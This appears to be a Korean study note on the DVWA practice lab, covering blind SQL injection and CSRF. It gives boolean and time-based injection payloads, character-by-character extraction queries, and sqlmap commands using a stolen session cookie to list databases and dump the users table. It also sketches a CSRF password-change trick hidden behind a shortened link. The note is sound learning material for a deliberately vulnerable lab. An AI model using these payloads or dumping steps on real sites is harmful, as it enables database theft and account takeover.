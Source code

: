 # DVWA 03

---

# SQL Injection(blind)


악용되면 데이터베이스의 정보를 다 털 수 있다. 매우위험!!


검색엔진 등에서 주로 테스트됨. 결과가 true 혹은 false로 나타날 때 시도할 수 있음. 



blind sql injectioin이 가능한지 확인하기?

`1' OR 1=1#` 이 쿼리가 먹는지 확인한다. true가 뜨면 되는거.


그리고 `1' AND 1=2#`에서 false가 나오는지 확인.


sleep?이라는걸 쓸수도 있대. delay를 살짝 주는 것.


`1' AND sleep(5)#` 이래 입력하고 검색결과가 5초 뒤에 나오는지 확인한다. 그러면 트루인거임.




<br></br>
---

## low




database의 information 스키마? 여기에 mysql의 메타데이터, 모든 정보가 담겨있다고 함. 그래서 주로 여기에 공격이 시도됨. DB명, 테이블명 등을 모두 포함하기 때문.


이걸 자동화해서 터는... 그런거를 만들어놈
SQL MAP이라는건데

1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91#

(select first_name from users where user_id='1')
이거의 결과값을 첫 인자로 넣어서
substr() 첫 인자의 몇번째부터 몇개를 따올건지
ascii() ascii값으로 변환


하나씩 늘려가며 대입해봤을 때 가장 먼저 false가 뜨는 그 값이 아이디의 첫 글자라고 유추할 수 있겠다. 

substr((select first_name from users where user_id='1'), **n**, 1)) 이면 n번째 글자를 의미함. 


사람이 다 하긴 너무 경우의 수가 많으니 SQL MAP 툴을 쓸 것임. 

[download](https://sqlmap.org/)


확인 가능한 폴더에서 압출 풀어주고,

해킹하고자 하는 사이트의 개발자도구 콘솔에 다음과 같이 입력해준다.

> `console.log(document.cookie);`

그리고 뜨는 이거를 카피해서
(1)
`security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr`

아까 sqlmap을 다운받은 경로에서 다음과 같이 입력


> python sqlmap.py -u "[대상링크]" --cookie="[아까복사한쿠키]"



> python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr" 

--current-db 하면 현재 웹사이트에서 사용하는 DB명을 알 수 있음

(2) 이런식으로... 

-D [DB명, ex) dvwa] --tables 하면 테이블명 알아내기. 

-T [table명, ex) users] -dump 하면 뭐냐 해당 테이블의 덤프를 딴다고? 

덤프란? 데이터를 압축해서 새로운 뭔가를 만드는... 전체 조회? 느낌으로도 사용되는듯

(3) 짜잔티비



<br></br>
---

## medium


proxy를 사용하되 low와 기본적인건 동일함. 

`1 AND ascii(substr((select first_name from users where user_id=1),1,1))>91#`


(1) 요로코롬... 

<br></br>
---

## high

얘도 끝에 주석만 잘 넣어주면 low랑 똑같다! 


굿. 


<br></br>
---

## impossible


예아. 




<br></br>
---

# CSRF



pw를 바꿀 때 뭔가 권한접근을 따내는거.


새로운 패스워드를 바꾸려할 때 파라미터가 get방식으로 웹 창에 다 보이자나


그럼 그거를 조작하는 방식이에용...


원하는 pw로 변경하고 submit했을 때의 그 URL을 short시켜서, 그럴듯한 가짜 링크에서 리다이렉션되도록 해둔 뒤... 


누군가 링크로 들어가면 그 유저의 패스워드가 해커가 설정해둔걸로 변경되는 것. 


기존 pw를 함께 입력하게 한다던가 토큰을 써서 접근권한을 제한하면 막을 수 있다. 



**굿**





